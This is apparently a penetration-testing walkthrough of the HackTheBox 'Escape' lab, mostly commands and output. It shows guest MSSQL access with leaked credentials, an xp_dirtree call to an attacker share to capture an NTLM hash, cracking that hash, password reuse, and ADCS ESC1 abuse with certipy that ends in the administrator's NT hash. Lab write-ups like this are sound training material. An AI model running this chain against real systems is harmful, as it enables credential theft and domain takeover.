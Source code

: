 ```yaml
---
title: HackTheBox-Escape
date: 2024-12-24 23:20:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [DevelopGroup, DnsAdmin]     # TAG names should always be lowercase
---
```


## SMB-enum
    ➜  escape nxc smb 10.10.11.202
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)

    ➜  escape smbclient -L \\DC
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Public          Disk      
            SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.


    For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with
    user PublicUser and password GuestUserCantWrite1 .

## MSSQL

    ➜  escape nxc mssql DC -u 'PublicUser' -p 'GuestUserCantWrite1' --local-auth
    MSSQL       10.10.11.202    1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
    MSSQL       10.10.11.202    1433   DC               [+] DC\PublicUser:GuestUserCantWrite1 

### access as guest

    ➜  escape impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
    [*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (PublicUser  guest@master)> 

### MSSQL-enum-abuse

    SQL (PublicUser  guest@master)> SELECT name FROM master.dbo.sysdatabases;
    name     
    ------   
    master   

    tempdb   

    model    

    msdb

    those are all default databases


    ------------   -----   ----   
    SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.4\share', 1, 1
    subdirectory   depth   file   
    ------------   -----   ----
### crack hash

    ➜  escape john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REGGIE1234ronnie (sql_svc) 

## winrm-enum


    2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
    2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'

## ADCS

    ➜  escape nxc ldap DC -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.202    636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
    ADCS        10.10.11.202    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
    ADCS        10.10.11.202    389    DC               Found PKI Enrollment Server: dc.sequel.htb
    ADCS        10.10.11.202    389    DC               Found CN: sequel-DC-CA

### find vuln

    ➜  escape certipy-ad find -u Ryan.Cooper -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled


    ➜  escape cat 20241224072819_Certipy.txt
    Certificate Authorities
    0
        CA Name                             : sequel-DC-CA
        DNS Name                            : dc.sequel.htb
        Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
        Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
        Certificate Validity Start          : 2022-11-18 20:58:46+00:00
        Certificate Validity End            : 2121-11-18 21:08:46+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
        Owner                             : SEQUEL.HTB\Administrators
        Access Rights
            ManageCertificates              : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            ManageCa                        : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            Enroll                          : SEQUEL.HTB\Authenticated Users
    Certificate Templates
    0
        Template Name                       : UserAuthentication
        Display Name                        : UserAuthentication
        Certificate Authorities             : sequel-DC-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : PublishToDs
                                            IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Client Authentication
                                            Secure Email
                                            Encrypting File System
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 10 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
        Enrollment Permissions
            Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Domain Users
                                            SEQUEL.HTB\Enterprise Admins
        Object Control Permissions
            Owner                           : SEQUEL.HTB\Administrator
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
        [!] Vulnerabilities
        ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

## ESC1

    ➜  escape certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 14
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

OR OR OR

    ➜  escape certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID

### crack-certipy-hash

    ➜  escape ntpdate -q sequel.htb
    2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap

#### faketime

    ➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sequel.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee


